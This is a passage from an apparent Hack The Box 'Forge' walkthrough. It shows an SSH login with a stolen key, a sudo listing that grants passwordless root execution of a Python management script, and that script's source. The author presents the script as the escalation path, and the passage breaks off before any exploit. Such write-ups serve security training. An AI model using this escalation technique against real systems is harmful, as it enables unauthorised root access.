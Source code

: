 ## SSH Access

Now we can log in as user:

```sh
┌──(root💀kali)-[~/htb/forge]
└─# ssh -i id_rsa user@forge.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
Last login: Sat Oct 23 15:39:54 2021 from 10.10.15.24
-bash-5.0$ whoami
user
```

I checked sudo permissions first, and found our escalation path straight away:

```sh
-bash-5.0$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

## Python Script

We can run a python script as root with no password. Let's check the script:

```python
-bash-5.0$ cat /opt/remote-manage.py
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != '<HIDDEN>':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
```